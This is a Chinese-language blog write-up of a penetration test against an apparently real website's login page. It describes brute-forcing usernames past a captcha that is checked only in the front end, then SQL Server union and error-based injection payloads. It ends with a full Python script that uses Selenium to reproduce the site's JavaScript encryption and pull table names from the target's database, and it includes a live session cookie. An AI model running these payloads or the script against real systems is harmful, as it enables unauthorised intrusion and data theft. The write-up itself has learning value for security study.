记一次SQL Server报错注入
0x00 验证码前端验证
需要测试一个网站，刚开始看到网站时感觉希望不大，因为验证码是需要拖动的，这也就意味着很大可能没办法爆破，另一方面是都用这种验证码了，安全做的能很差劲吗？果然，试了admin、123456之类的都不行

那就抓个包吧

emmmmmm。32位，md5加密？这里看着没有验证码之类的信息，把这个包发了几次发现没有出现验证码信息，而且试了试，发现有两种状态(运气比较好，有admin这个用户，我也是试的这个用户，一下子就看出返回不同了)，如下：
用户不存在时返回 {"iserror":true,"message":"用户名不存在！","data":null,"errorfieldlist":null}
用户名存在时返回 {"iserror":true,"message":"密码不正确！","data":null,"errorfieldlist":null}
可以的，验证码前端验证，我觉得可以burp抓包intruder一下
跑了top 500的用户名和top 1000的密码，除了直接试的用户名admin，其他的一个都没有跑出来 sad
0x01 存在注入
嗯看来爆破是基本没有希望了，测其他的吧，嗯，这里是登陆，那肯定要看注入的，无脑加单引号，boom！

可以的，and 1=1 有注入
哎？？！！！那不对啊，咋的后台还解密md5后进行查询？？
刚才看了数据包，用户名密码都是32位，猜想sql语句是：select password from user where username=name_md5_hash，然后判断用户存不存在之类的
看返回信息的话显然不是啊，哪有后台解密md5后查询的。。。。。。
试试post其他用户名和密码，然后看数据包

显然并不是md5。。。。这个是前端加密后发送的。。。。。看一下js，结果发现了这


emmmmm，想了想，应该可以注入的，看看啥系统

大概率SQL Server了(因为前几天在t00ls刚看到了一个ASP.NET+MySQL，比较任性)，所以这里看一下，发现确实是SQL Server

看看数据库版本，嗯，看来还是报错注入

可以可以，看看有几列，然后进行union注入


一列，这里也能大致猜出来sql语句了，估计就是：select password from user where username='admin'
那就看看数据库吧，不知道SQL Server中的concat怎么用，一个个来吧。。。。
得到第一个数据库的名字：union select name from master.dbo.sysdatabases where dbid=1

得到第二个数据库的名字：union select name from master.dbo.sysdatabases where dbid=2

得到第5个数据库的名字：union select name from master.dbo.sysdatabases where dbid=5

好麻烦啊，拖一下验证码，然后得到一个数据库，而且后面还有表呢。。。。。
py一下了吧，前端有js进行加密，可以本地写文件生成加密后的payload，然后python拿到payload后进行注入
0x02 尝试写php得到加密后的payload
把加密的那个js文件SkyEnCode.js保存到本地，然后写php文件，php的话接收一个未加密的payload然后返回一个加密后的payload，大致代码：
<head><script src=jquery.min.js></script><script src=SkyEnCode.js></script><title>test</title></head><body>$name = $_GET['name'];echo "<script>var name = '".$name."';document.write('>>>'+SkyEnCode.EscKeyCode(name) +'<<<');</script>";</body></html>
看了下，返回的结果是一样的，可以用(实际上并不能。。。)

0x03 通过python获取js加密后的payload
本来是写python获取加密后的payload来着
def encode_payload(payload):html = requests.get("http://127.0.0.1/tmp.php?name={}".format(payload)).textm = re.findall(r'>>>(.*?)<<<', html)return m
但是获取到的是：[u"'+SkyEnCode.EscKeyCode(name)+'"]，因为js没有执行加载，所以得到的是js未执行时的页面源码
记得以前看过一个东西，selenium，可以调用浏览器驱动模拟浏览器点击啥的，记得可以执行js，想到就做
首先安装selenium：sudo pip install selenium --user -U
然后在http://chromedriver.storage.googleapis.com/index.html下载Chrome的驱动，然后放到/opt下
[21:07 reber in ~]➜ ls /opt/chromedriver/opt/chromedriver[21:07 reber in ~]➜ /opt/chromedriver --versionChromeDriver 70.0.3538.97 (d035916fe243477005bc95fe2a5778b8f20b6ae1)
获取加密后payload的代码重写如下(此时已经不需要页面接收参数了，页面能引入js我们调用执行就行)：

python运行后得到的userName和网页上的一样


0x04 得到数据库的表名
数据库名的话可以通过union注入改变dbid即可得到，比较简单，表名的话这里写代码获取第5个数据库gansu的表名

不再继续深入
0x05 详细代码
#!/usr/bin/env python# -*- coding: utf-8 -*-# code by reber <1070018473@qq.com>import reimport timeimport requestsfrom selenium import webdriverfrom selenium.webdriver.chrome.options import Optionsurl = "http://117.***.***.***/newcc/Common/AccessToken.do"headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0","Accept": "application/json, text/javascript, */*; q=0.01","Cookie": "currentuser_JSON=eyJpZCI6MSwiZGVsc3RhdHVzIjowLCJkZXB0aWQiOjEsInVuaXRpZCI6MSwiY2hpbmFuYW1lIjoi566h55CG5ZGYIiwibG9naW5uYW1lIjoiYWRtaW4iLCJiaXJ0aCI6bnVsbCwic2V4IjoxLCJwYXNzd29yZCI6ImthdkRhVzRoanMzK3dIeC90czhvdSsxVEYzQT0iLCJtYWlsIjoiYWRtaW5Ac2t5dGVjaC5jb20iLCJpZGNhcmQiOm51bGwsIm1vYmlsZSI6bnVsbCwicGhvbmVkZXB0IjoiMDI1ODg4ODg4ODgiLCJwaG9uZWhvbWUiOiIwMjU4ODg4ODg4OCIsInBlcm1zdHJpbmciOiI3MSw2Niw4OSw0NywxMDcsMTMxLDU4LDc4LDI0NSw5Miw0MSw1NCw1NiwxLDcsMjcsMjgsNjksMzkiLCJwZXJzb25yb2xlcyI6IjgiLCJzb3J0aW5kZXgiOjAsImlzaGFzY2FyZHR5cGUiOjAsImFkZGVyIjoxLCJhZGR0aW1lIjoiMjAwNi8wMi8yMCAxMzoyOToyNiIsIm1vZGVyIjoxLCJtb2R0aW1lIjoiMjAxNy8wOC8xOSAwOToxMDo0MCJ9",}def encode_payload(payload):chrome_options = Options()chrome_options.add_argument('--headless') #无头模式，不打开浏览器界面chrome = webdriver.Chrome(executable_path=r"/opt/chromedriver",chrome_options=chrome_options)try:chrome.get("http://127.0.0.1/tmp.php")# chrome.maximize_window() #不设置无头模式时最大化窗口# time.sleep(20) #等待请求完页面# print chrome.page_source #输出页面的htmljs = "var en_payload = SkyEnCode.EscKeyCode(\"{}\");return en_payload;".format(payload)en_payload = chrome.execute_script(js) #调用页面中加载的js代码中的加密函数return en_payloadexcept Exception as e:print str(e)finally:chrome.close()def get_tables(database):payload1 = "admin' and (select top 1 '~~'+name+'~~' from {}.dbo.sysobjects where xtype='U')>1--".format(database)payload2 = "admin' and (select top 1 '~~'+name+'~~' from {}.dbo.sysobjects where xtype='U' and name not in ({}))>1 --"#先得到第一张表名en_payload = encode_payload(payload1)data = {"userName": en_payload,"userPwd": "823d9ed14f2b86bb15234e4893c3ec54"}html = requests.post(url=url,data=data,headers=headers).contentc_table = re.search(r'~~(.*?)~~', html).group(1)#通过for循环得到其他的表名tables = list()for x in xrange(5):tables.append("'"+c_table+"'")fm = ",".join(str(table) for table in tables)_payload = payload2.format(database,fm)print _payloaddata = {"userName": encode_payload(_payload),"userPwd": "9ad64932f8832810867a5b9e956206ca"}html = requests.post(url=url,data=data,headers=headers).contentprint htmlc_table = re.search(r'~~(.*?)~~', html).group(1)print tablesget_tables('gansu')

参考来源：reber's blog
作者：reber
如有侵权，请联系删除